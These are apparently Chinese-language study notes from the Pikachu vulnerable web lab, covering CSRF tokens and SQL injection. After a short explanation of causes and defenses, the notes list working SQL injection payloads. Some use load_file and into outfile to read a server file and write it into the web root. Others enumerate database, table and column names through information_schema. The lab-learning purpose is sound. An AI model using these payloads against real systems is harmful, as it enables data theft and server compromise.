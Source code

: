 ## CSRF token

csrf漏洞主要用来欺骗用户点击，如果使用token可以防御csrf






# SQL inject

>​                           在owasp发布的top10排行榜里，注入漏洞一直是危害排名第一的漏洞，其中注入漏洞里面首当其冲的就是数据库注入漏洞。
>​                        **一个严重的SQL注入漏洞，可能会直接导致一家公司破产！**
>​                        SQL注入漏洞主要形成的原因是在数据交互中，前端的数据传入到后台处理时，没有做严格的判断，导致其传入的“数据”拼接到SQL语句中后，被当作SQL语句的一部分执行。                        从而导致数据库受损（被脱裤、被删除、甚至整个服务器权限沦陷）。
>​                    
>
>​                        在构建代码时，一般会从如下几个方面的策略来防止SQL注入漏洞：
>​                        1.对传进SQL语句里面的变量进行过滤，不允许危险字符传入；
>​                        2.使用参数化（Parameterized Query 或 Parameterized Statement）；
>​                        3.还有就是,目前有很多ORM框架会自动使用参数化解决注入问题,但其也提供了"拼接"的方式,所以使用时需要慎重!                    



## into outfile/load_file

`name=-1' union select 1,load_file('C:/a.txt') --+ `

读取c盘下的a.txt文件
`name=-1' union select 1,load_file('C:/a.txt') into outfile 'C:/phpstudy_pro/WWW/pikachu/vul/sqli/haha.txt' --+` 

读取c盘的a.txt内容到自己目录下的haha.txt

**这个into outfile不具备创建文件的能力!!!!!!**



## 数字型注入——post

**数字型注入相关的sql语句大概是个 `select xxcolumns from xxtable where id=input`的形式。**

数字型——`\`发现没有闭合。

`?id=1 order by 3# `开始。

按简单流程过即可。

post需要抓包

`id=-1 union select 1,2#` 

`id=-1 union select 1,database()#`

`id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#`

`id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema="pikachu" and table_name="users"#`
